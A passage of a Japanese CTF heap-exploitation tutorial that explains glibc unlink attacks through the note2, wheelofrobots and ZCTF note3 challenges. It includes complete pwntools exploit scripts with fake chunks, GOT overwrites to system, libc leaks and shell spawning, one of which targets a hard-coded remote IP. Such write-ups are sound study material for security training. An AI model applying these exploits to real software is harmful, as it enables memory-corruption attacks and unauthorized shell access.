ここで、chunk0 の中に合計 2 つのチャンクを構築していることに注意してください。

- chunk ptr[0]。unlink のときに対応する値を書き換えるためのものです。
- chunk ptr[0]'s nextchunk。unlink 時の最初の検査を満たすためのものです。

```c
    // P はすでに双方向リストに入っているので、サイズが 2 か所に記録されている。そのためサイズが一致するかを検査する。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

3 つの note を構築し終えたときのヒープの基本構造は図 1 のようになります。

```
                                   +-----------------+ high addr
                                   |      ...        |
                                   +-----------------+
                                   |      'b'*8      |
                ptr[2]-----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|------------
                                   |    unused       |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+  chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           图1
```

#### chunk1 の解放、chunk2 の上書き、chunk2 の解放

対応するコードは次のとおりです。

```python
# edit the chunk1 to overwrite the chunk2
deletenote(1)
content = 'a' * 16 + p64(0xa0) + p64(0x90)
newnote(0, content)
# delete note 2 to trigger the unlink
# after unlink, ptr[0] = ptr - 0x18
deletenote(2)
```

まず chunk1 を解放します。このチャンクは fastbin に属するため、次に確保するときにも同じチャンクが確保されます。また、上述の型の問題により任意の文字を読み込めるので、chunk2 を上書きできます。上書き後は図 2 のようになります。

```
                                   +-----------------+high addr
                                   |      ...        |
                                   +-----------------+
                                   |   '\x00'+'b'*7  |
                ptr[2]-----------> +-----------------+ chunk 2
                                   |    size=0x90    |
                                   +-----------------+
                                   |    0xa0         |
                                   +-----------------|------------
                                   |    'a'*8        |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+ chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           图2
```

この上書きは主に、chunk2 を解放するときに後方統合(低アドレス側との統合)を起こさせ、chunk0 の中に仮に構築したチャンクに対して unlink を行わせるためのものです。これから実行される操作は unlink(ptr[0]) で、構築した fakebk と fakefd は次の制約を満たします。

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
```

unlink が成功すると、ptr[0] に格納されているアドレスが fakebk、つまり ptr-0x18 になります。

#### system のアドレスの取得

コードは次のとおりです。

```python
# overwrite the chunk0(which is ptr[0]) with got atoi
atoi_got = note2.got['atoi']
content = 'a' * 0x18 + p64(atoi_got)
editnote(0, 1, content)
# get the aoti addr
shownote(0)

sh.recvuntil('is ')
atoi_addr = sh.recvuntil('\n', drop=True)
print atoi_addr
atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
print 'leak atoi addr: ' + hex(atoi_addr)

# get system addr
atoi_offest = libc.symbols['atoi']
libcbase = atoi_addr - atoi_offest
system_offest = libc.symbols['system']
system_addr = libcbase + system_offest

print 'leak system addr: ', hex(system_addr)
```

ptr[0] の内容を ptr のアドレス-0x18 に書き換えたので、再び note0 を編集すると ptr[0] の内容を上書きできます。ここではそれを atoi のアドレスで上書きします。
こうすると、note 0 の内容を表示すれば、実際に表示されるのは atoi のアドレスです。

その後、libc 内の対応するオフセットから system のアドレスを計算します。

#### atoi の got の書き換え

```python
# overwrite the atoi got with systemaddr
content = p64(system_addr)
editnote(0, 1, content)
```

このとき ptr[0] は got テーブルのアドレスなので、この note を直接編集して system のアドレスで上書きできます。

#### get shell

```python
# get shell
sh.recvuntil('option--->>')
sh.sendline('/bin/sh')
sh.interactive()
```

このとき再び atoi を呼び出すと、実際に呼ばれるのは system 関数なので、shell を取得できます。

## 2017 insomni'hack wheelofrobots
[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/2017_insomni'hack_wheelofrobots)

### 基本情報

```shell
➜  2017_insomni'hack_wheelofrobots git:(master) file wheelofrobots
wheelofrobots: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=48a9cceeb7cf8874bc05ccf7a4657427fa4e2d78, stripped
➜  2017_insomni'hack_wheelofrobots git:(master) checksec wheelofrobots
[*] "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2017_insomni'hack_wheelofrobots/wheelofrobots"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

動的リンクの 64 ビットで、主に canary と nx が有効になっています。

### 基本機能

プログラムをざっと分析すると、これはロボットの車輪を構成するゲームで、ロボットには合計 3 つの車輪を追加する必要があることがわかります。

プログラムが大きく依存している機能は整数の読み込みで、関数 read_num は指定された長さを読み込んで int 型の数値に変換します。

具体的な機能は次のとおりです。

- 車輪の追加。選べる車輪は全部で 6 つあります。車輪の選択には関数 read_num を使いますが、この関数は読み込み時に `read_num((char *)&choice, 5uLL);` で 5 バイトを読み込み、ちょうど bender_inuse の最下位バイトを上書きしてしまいます。これが off-by-one の脆弱性になります。また、Destructor の車輪を追加するときにはサイズの検査が行われていません。読み込んだ数が負数だと、`calloc(1uLL, 20 * v5);` を確保するときに `20*v5` がオーバーフローする可能性がありますが、同時に `destructor_size = v5` は依然として非常に大きくなります。
- 車輪の削除。該当する車輪をそのまま削除しますが、対応するポインタは NULL に設定されず、対応するサイズもクリアされません。
- 車輪の名前の変更。そのとき確保した車輪のサイズに応じてデータを読み込みます。先に述べたとおり、destructor の車輪はサイズの読み込み時に負数の検査をしていないため、次の操作 `result = read(0, destructor, 20 * destructor_size);` では、ほぼ任意の長さのオーバーフローの脆弱性があります。
- ロボットの起動。起動時にいくつかの車輪の名前がランダムに出力されますが、これは制御が難しい部分です。

以上の分析から、このプログラムの主な脆弱性は off-by-one と整数オーバーフローであることがわかります。ここでは主に前者の off-by-one を使います。

### 攻撃の考え方

基本的な攻撃の考え方は次のとおりです。

1. off by one の脆弱性と fastbin attack を使ってチャンクを 0x603138 に確保させ、`destructor_size` の大きさを制御できるようにして、任意の長さのヒープオーバーフローを実現する。ここでは車輪 1 の tinny をここに確保する。
2. 物理的に隣接する適切なサイズのチャンク(destructor を含む)をそれぞれ確保する。上記の任意の長さのヒープオーバーフローを使い、destructor に対応するチャンクをオーバーフローさせて次の物理的に隣接するチャンクまで書き込み、0x6030E8 にある fake chunk に対して unlink を行う効果を得る。このとき bss セグメントの destructor は 0x6030D0 を指す。これにより、bss セグメントのほぼすべての内容を再び上書きできる。
3. 任意アドレス書き込みの脆弱性を構築する。上記の脆弱性で、確保済みの車輪 1 tinny のポインタを destructor のアドレスで上書きすると、以降 tinny を編集することは destructor の内容を編集することになり、再び destructor を編集すれば任意の低いアドレスへの書き込みに相当する。
4. プログラムは最後にロボットを起動するときだけ車輪の内容をランダムに出力し、いったん出力するとプログラムが終了してしまう。この部分は制御できないため、`exit()` を `ret` のアドレスに patch する。こうすれば何度も出力でき、いくつかの got テーブルのアドレスをリークできる。**実は、任意アドレス書き込みの脆弱性がある以上、ある got を puts の plt のアドレスに書き換え、対応する関数を呼び出したときに内容を直接出力させることもできる。しかしここではこの方法は採らない。すでに hitcon stkof で使った手法だからである。**
5. 内容をリークした後、libc のベースアドレス、system のアドレス、libc 内の /bin/sh のアドレスが得られる。そして free@got を system のアドレスに書き換える。これにより、再びメモリを解放したときに shell を起動できる。

コードは次のとおりです。

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./wheelofrobots"
robots = ELF('./wheelofrobots')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./wheelofrobots")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def add(idx, size=0):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    if idx == 2:
        p.recvuntil("Increase Bender's intelligence: ")
        p.sendline(str(size))
    elif idx == 3:
        p.recvuntil("Increase Robot Devil's cruelty: ")
        p.sendline(str(size))
    elif idx == 6:
        p.recvuntil("Increase Destructor's powerful: ")
        p.sendline(str(size))


def remove(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))


def change(idx, name):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    p.recvuntil("Robot's name: \n")
    p.send(name)


def start_robot():
    p.recvuntil('Your choice :')
    p.sendline('4')


def overflow_benderinuse(inuse):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.send('9999' + inuse)


def write(where, what):
    change(1, p64(where))
    change(6, p64(what))


def exp():
    print "step 1"

    # add a fastbin chunk 0x20 and free it
    # so it is in fastbin, idx2->NULL
    add(2, 1)  # idx2
    remove(2)

    # overflow bender inuse with 1
    overflow_benderinuse('\x01')

    # change bender's fd to 0x603138, point to bender's size
    # now fastbin 0x20, idx2->0x603138->NULL
    change(2, p64(0x603138))

    # in order add bender again
    overflow_benderinuse('\x00')

    # add bender again, fastbin 0x603138->NULL
    add(2, 1)

    # in order to malloc chunk at 0x603138
    # we need to bypass the fastbin size check, i.e. set *0x603140=0x20
    # it is at Robot Devil
    add(3, 0x20)

    # trigger malloc, set tinny point to 0x603148
    add(1)

    # wheels must <= 3
    remove(2)
    remove(3)

    print 'step 2'

    # alloc Destructor size 60->0x50, chunk content 0x40
    add(6, 3)

    # alloc devil, size=20*7=140, bigger than fastbin
    add(3, 7)

    # edit destructor's size to 1000 by tinny
    change(1, p64(1000))

    # place fake chunk at destructor's pointer
    fakechunk_addr = 0x6030E8
    fakechunk = p64(0) + p64(0x20) + p64(fakechunk_addr - 0x18) + p64(
        fakechunk_addr - 0x10) + p64(0x20)
    fakechunk = fakechunk.ljust(0x40, 'a')
    fakechunk += p64(0x40) + p64(0xa0)
    change(6, fakechunk)

    # trigger unlink
    remove(3)

    print 'step 3'

    # make 0x6030F8 point to 0x6030E8
    payload = p64(0) * 2 + 0x18 * 'a' + p64(0x6030E8)
    change(6, payload)

    print 'step 4'

    # make exit just as return
    write(robots.got['exit'], 0x401954)

    print 'step 5'

    # set wheel cnt =3, 0x603130 in order to start robot
    write(0x603130, 3)

    # set destructor point to puts@got
    change(1, p64(robots.got['puts']))
    start_robot()
    p.recvuntil('New hands great!! Thx ')
    puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    # make free->system
    write(robots.got['free'], system_addr)

    # make destructor point to /bin/sh addr
    write(0x6030E8, binsh_addr)

    # get shell
    remove(6)
    p.interactive()


if __name__ == "__main__":
    exp()

```

### 問題

- [DEFCON 2017 Qualifiers beatmeonthedl](https://github.com/Owlz/CTF/raw/master/2017/DEFCON/beatmeonthedl/beatmeonthedl)

### 参考

- malloc@angelboy
- https://gist.github.com/niklasb/074428333b817d2ecb63f7926074427a


## note3
[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/ZCTF_2016_note3)

### 紹介

ZCTF 2016 の問題で、ポイントは safe unlink の悪用です。

### 問題の紹介

問題はメモ帳(notepad)で、ノートの作成、削除、編集、表示の機能があります。

```
1.New note
2.Show note
3.Edit note
4.Delete note
5.Quit
option--->>
```

保護は次のとおりです。

```
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

### 機能の概要

プログラムの New 機能は新しいノートを作成するもので、ノートのサイズは 1024 バイト未満であれば自由に指定できます。

```
int new()
{
  puts("Input the length of the note content:(less than 1024)");
  size = get_num();
  if ( size < 0 )
    return puts("Length error");
  if ( size > 1024 )
    return puts("Content is too long");
  heap_ptr = malloc(size);
  puts("Input the note content:");
  my_read(heap_ptr, size, '\n');
  bss_ptr[i] = heap_ptr;
  current_ptr[i + 8LL] = size;
  current_ptr[0] = bss_ptr[i];
  return printf("note add success, the id is %d\n", i);
}
```

すべてのノートを malloc したポインタは bss 上のグローバル配列 bss_ptr に格納され、この配列には最大 8 個の heap_ptr を格納できます。
また、heap_ptr に対応する size も bss_ptr 配列に置かれます。current_ptr は現在のノートを表します。bss のレイアウトは次のとおりです。

```
.bss:
current_ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```

Show 機能は役に立たない機能で、edit と delete で note を編集、解放できます。

### 脆弱性

脆弱性は edit 機能にあります。ユーザが入力した id 番号を取得した後、検証が行われていません。入力した id が負数でもそのまま実行できます。
get_num 関数には整数オーバーフローの脆弱性があり、負数を得ることができます。

```
int edit()
{

  id = get_num();
  data_ptr = ptr[id];
  if ( data_ptr )
  {
    puts("Input the new content:");
    my_read(ptr[id], current_ptr[id + 8], '\n');
    current_ptr[0] = ptr[id];
    data_ptr = puts("Edit success");
  }
}
```

このため、edit が current_ptr に読み込むようにでき、そのとき使われる size は note7_ptr になります。
```
.bss:
current_ptr <== edit ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr   <== size
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```
まず 8 個の note を作成し、次に note3 を edit して current_ptr を note3 に向け、その後 -1 を使って note3 をオーバーフローさせます。
```
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')

edit(3,'a')
edit(-9223372036854775808,data);
```

オーバーフローさせるデータは、fake chunk を構築して safe unlink を実現するためのものです。具体的な原理はこの章の解説を参照してください。

```
data = ''
data += p64(0) + p64(512+1) #fake chunk のヘッダ
data += p64(0x6020e0-0x18) + p64(0x6020e0-0x10) #偽の fd と bk
data += 'A'*(512-32)
data += p64(512) + p64(512+16)
```

その後 note4 を解放すると、note3 と note4 が統合されます。note3_ptr は note0_ptr の位置を指すようになります。こうして、note0_ptr の値を繰り返し書き換えながら note0 を edit することで、任意アドレスへのデータ書き込みが実現できます。

しかしこの問題には show 機能がないため、任意アドレス読み出しができず、データをリークできません。
ここで採る方法は、free の got テーブルを printf の値に書き換え、bss 内の空き領域に "%x" を書き込むことです。
こうしてこの領域を free する(この領域は ptr_array 内にあるので、そのまま free に渡せます)と、スタック上のデータをリークできます。
スタック上の libc のアドレスから system のアドレスを求め、任意アドレス書き込みを使って shell を取得できます。

```
free(4)

edit(3,free_got)
edit(0,printf_plt)

edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
```
完全な exp は次のとおりです。

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
def malloc(size,data):
    print conn.recvuntil('>>')
    conn.sendline('1')
    print conn.recvuntil('1024)')
    conn.sendline(str(size))
    print conn.recvuntil('content:')
    conn.sendline(data)
    print conn.recvuntil('\n')
def edit(id,data):
    print conn.recvuntil('>>')
    conn.sendline('3')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('ent:')
    conn.sendline(data)
    print conn.recvuntil('success')
def free(id):
    print conn.recvuntil('>>')
    conn.sendline('4')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('success')

conn = remote('115.28.27.103',9003)
free_got = p64(0x602018)
puts_got = p64(0x602020)
stack_got = p64(0x602038)
printf_got = p64(0x602030)
exit_got = p64(0x602078)
printf_plt = p64(0x400750)
puts_plt = p64(0x400730)

#libcstartmain_ret_off = 0x21b45
#sys_off = 0x414f0

libcstartmain_ret_off = 0x21ec5
sys_off = 0x46640

# 1. int overflow lead to double free
intoverflow = -9223372036854775808
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,p64(0x400ef8))
malloc(512,'/bin/sh\0')

# 2. make a fake chunk and modify the next chunk's pre size
fakechunk = p64(0) + p64(512+1) + p64(0x6020e0-0x18) + p64(0x6020e0-0x10) + 'A'*(512-32) + p64(512) + p64(512+16)
edit(3,'aaaaaa')
edit(intoverflow,fakechunk)

# 3. double free
free(4)

# 4. overwrite got
edit(3,free_got)
edit(0,printf_plt+printf_plt)

# 5. leak the stack data
edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)

# free->puts
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))

ret =  conn.recvuntil('success')
print ret

# 6. calcuate the system's addr
libcstart = ret.split('.')[10]
libcstart_2 = int(libcstart,16) - libcstartmain_ret_off
print 'libc start addr:',hex(libcstart_2)
system_addr = libcstart_2 + sys_off
print 'system_addr:',hex(system_addr)

# 7. overwrite free's got
edit(3,free_got)
edit(0,p64(system_addr)+printf_plt)

# 8. write argv
edit(3,p64(0x6020d0))
edit(0,'/bin/sh\0')

# 9. exploit
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))
sleep(0.2)
conn.interactive()
```
